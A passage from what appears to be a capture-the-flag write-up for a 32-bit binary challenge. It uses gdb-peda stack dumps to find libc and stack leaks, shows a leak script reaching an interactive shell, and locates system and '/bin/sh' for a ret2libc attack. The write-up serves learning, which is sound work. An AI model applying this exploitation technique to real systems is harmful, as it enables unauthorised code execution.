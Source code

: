 
and now for the buffer's contents

```
gdb-peda$ telescope 0xffffd050 16
0000| 0xffffd050 --> 0xf7ffd000 --> 0x23f3c 
0004| 0xffffd054 --> 0x80482dc --> 0x62696c00 ('')
0008| 0xffffd058 --> 0xf7ffdad0 --> 0xf7ffda74 --> 0xf7fd3b18 --> 0xf7ffd918 --> 0x0 
0012| 0xffffd05c --> 0x0 
0016| 0xffffd060 --> 0xffffd120 --> 0x1 
0020| 0xffffd064 --> 0xf7e04d18 --> 0x2a10 
0024| 0xffffd068 --> 0xf7e589eb (<setbuffer+11>:	add    edi,0x155615)
0028| 0xffffd06c --> 0x804a000 --> 0x8049f04 --> 0x1 
0032| 0xffffd070 --> 0x1 
0036| 0xffffd074 --> 0xf7fae000 --> 0x1b5db0 
0040| 0xffffd078 --> 0xffffd118 --> 0x0 
0044| 0xffffd07c --> 0xf7e5ebf5 (<setbuf+21>:	add    esp,0x1c)
0048| 0xffffd080 --> 0xf7faed60 --> 0xfbad2887 
0052| 0xffffd084 --> 0x0 
0056| 0xffffd088 --> 0x2000 ('')
0060| 0xffffd08c --> 0xf7e5ebe0 (<setbuf>:	sub    esp,0x10)
```

So we can see that at offset `24` there is the address of `setbuffer+11` which we can use as the libc leak. And at offset `16`we have a stack address that we can use for a stack leak. So with these two things, we can caluclate the address we need (code for this is in the github repo). 


Script output:
```
python leak.py 
[+] Starting local process './vuln': pid 9181
[*] running in new terminal: /usr/bin/gdb -q  "/Hackery/hxp/bbpwn/babyish/vuln" 9181
[+] Waiting for debugger: Done
d
Enter username: 
[*] Address of setbuffer: 0xf75859e0
[*] Stack leak: 0xff864840
Enter string (length 4294967168): 
[*] Switching to interactive mode
$ 
```

looking at the addresses in gdb-peda:
```
Breakpoint 1, 0x080487c5 in main () at vuln.c:39
39	    read(fileno(stdin), buf, len);
gdb-peda$ p setbuffer
$1 = {<text variable, no debug info>} 0xf75859e0 <setbuffer>
gdb-peda$ find 15935728
Searching for '15935728' in: None ranges
Found 1 results, display max 1 items:
[stack] : 0xff8647dc ("15935728\nH\206\377")
gdb-peda$ p system
$2 = {<text variable, no debug info>} 0xf7560060 <system>
gdb-peda$ find /bin/sh
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7684a0f ("/bin/sh")
```
